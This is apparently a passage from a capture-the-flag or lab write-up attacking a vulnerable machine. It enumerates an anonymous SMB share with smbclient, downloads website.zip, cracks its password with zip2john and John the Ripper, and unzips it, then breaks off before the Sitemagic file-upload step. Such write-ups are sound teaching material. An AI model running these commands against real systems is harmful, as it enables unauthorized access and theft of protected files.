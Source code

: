 And there is nothing to do on the website.

## Dynamic detection
Sensitive data exposed in `SMB` service and arbitrary file upload to `Sitemagic`.

Given I can access `smb://192.168.2.21`, then I will check it.
When I use the `smbclient` command without a password:
```shell
$ smbclient -L \\\\192.168.2.21 -N
Sharename       Type      Comment
---------       ----      -------
Files           Disk      HACK ME
IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
```
Then I can see the `Files` directory. When I access the `Files` directory:
```shell
$ smbclient \\\\192.168.2.21\\Files -N
```
Then I can see a file called `website.zip`:

![evidence](./static/03-smbclient.png)

And I download it. When I try to `unzip` it, then I notice that it asks for a password, and now, I will try to crack it
When I use the `zip2jhon` command:
```shell
$ zip2john website.zip > website.hash
```
Then I get the hash of the `zip` file, when I run the `john the ripper` command, and I use the Rockyou list:
```shell
$ john  --wordlist=rockyou.txt website.hash
...SNIPPED...
porchman         (website.zip)
...SNIPPED...
```
When I `unzip` the files with the password `porchman`:
```shell
$ unzip -P 'porchman' -d website website.zip &>/dev/null
website
├── README.txt
└── sitemagic
    ├── ...SNIPPED...
...SNIPPED...
```
Then I can see a `README.txt` file and a directory, when I read the `README.txt` file:
